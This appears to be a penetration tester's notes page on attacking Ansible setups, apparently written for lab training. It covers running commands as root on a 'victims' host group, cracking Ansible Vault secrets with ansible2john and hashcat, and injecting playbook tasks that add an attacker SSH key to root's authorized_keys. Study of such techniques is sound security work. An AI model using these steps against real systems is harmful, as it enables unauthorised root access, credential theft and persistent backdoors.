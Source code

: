 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
                
<style>
  div.highlighter-rouge {
    position: relative;
    font-family: 'Source Code Pro', monospace;
    font-size: 14px;
  }

  div.highlighter-rouge button {
    display: inline-block;
    cursor: pointer;
    background-color: #252525;
    border: 2px solid #252525;
    border-radius: 8px solid #000;
    color: var(--text-color);
    line-height: 1.5px;
    padding: 15px 10px;
    text-align:center;
    transition-duration: .10s;
    transition-property: all;
    position: absolute;
    top: 7px;;
    left: 940px;
  }
</style>

<!--     
font-weight: 300;
transition-timing-function: cubic-bezier(.4,0,.2,1);
color: #fff;
outline: 0;
background: #000;
border-radius: 8px;
border-color: #252525;
-->

I really <i class="nf nf-fa-heart"></i> <i class="nf nf-custom-vim"></i>

<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = '<i class="nf-oct-copy"></i>';
      //copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      
      
      //mouseover
      copyCodeButton.addEventListener('mouseover', () => {
      copyCodeButton.style.borderColor = 'white';
      copyCodeButton.style.fontColor = 'white';
      });

      //mouseout
      copyCodeButton.addEventListener('mouseout', () => {
      copyCodeButton.style.borderColor = '#252525';
      copyCodeButton.style.fontColor = '#DBDBDB';
      });
      
      //onclick
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = "Copy";
        copyCodeButton.style.borderColor = 'red';
        //copyCodeButton.classList.add("btn-success");
        //copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = "Copy";
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.style.backgroundColor = '#252525';
          copyCodeButton.classList.add("btn-outline-primary");
        }, 500);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
```yaml
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
